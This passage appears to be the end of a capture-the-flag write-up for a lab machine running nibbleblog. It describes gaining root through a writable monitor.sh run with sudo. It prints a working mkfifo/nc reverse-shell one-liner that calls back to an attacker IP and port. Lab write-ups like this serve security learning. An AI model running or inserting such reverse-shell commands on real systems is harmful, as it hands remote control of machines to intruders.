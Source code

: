 ![AeaECQ.png](https://s2.ax1x.com/2019/03/17/AeaECQ.png)



There's a problem with the `nc` in the victim machine. `e` option is invalid in the victim machine. May there are some solutions, but I turn to other reverse shell methods right away.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.44 1234 >/tmp/f
```

Send the `monitor.sh` to the victim machine and make sure to obtain the execution permission:

```
chmod +x monitor.sh
```

Establish the listen to `1234` in Kali linux and execute the `monitor.sh` in the victim machine:

```
sudo ./monitor.sh
```

Here is the root.

![AewPfg.png](https://s2.ax1x.com/2019/03/17/AewPfg.png)

 

## Conclusion

To be honest, the most difficult challenge of this box is to guess the password of admin of `nibbleblog`. The known vulnerability is not difficult to utilize. To obtain root shell, there are some methods to try. Some specific method cannot be utilized directly. You can try another method. Try harder!